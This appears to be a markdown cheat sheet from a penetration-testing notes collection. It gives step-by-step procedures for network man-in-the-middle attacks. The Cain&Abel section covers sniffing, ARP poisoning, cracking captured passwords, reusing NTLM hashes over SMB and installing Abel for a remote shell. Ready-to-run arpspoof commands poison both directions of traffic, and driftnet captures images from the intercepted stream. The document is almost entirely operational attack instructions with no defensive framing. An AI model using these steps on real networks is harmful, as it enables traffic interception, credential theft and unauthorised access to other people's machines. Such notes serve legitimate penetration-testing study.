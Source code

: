### Cain&Abel
1. Set the ethernet card
   * `Configure > select card > OK`
2. Sniff network
   * `Sniffer` tab
   * Press `Start/Stop Sniffer` button
   * Press `Host` a right click to `Scan MAC address`
3. ARP poison
   * Press `APR` and `+` sign
   * Press Detonate (`Start/Stop APR`) button
4. Passwords
   * Press `Password`
   * Right click a password and `Crack`
5. SMB connect
   * Press `Network` tab
   * Add IP in `Quick List`
   * Connect with cracked NTLM hashes
6. Install Abel (still on `Network`)
   * Press `Services` tab, right click and `install Abel`
   * Double click IP to refresh the view and go to `Abel` and `Shell`

### arp-spoof
1. Enable IP forwarding (lets the attacking host to send packets to both spoofed machines = traffic goes through the attacking host)
   * `sudo echo 1 > /proc/sys/net/ipv4/ip_forward`
2. Arp spoof - 1st direction
   * `arpspoof -i eth1 -t <target1> -r <host/target2>`</br>
   	  where `-r` -> poisong both hosts
3. Arp spoof - 2nd direction
   * `arpspoof -i eth1 -t <host/target2> -r <target1>`
#### driftnet - capture images from network traffic and display them in an X window; optionally, capture audio streams and play them.
1. While arp-spoof is working
    * `driftnet -i <interface>`
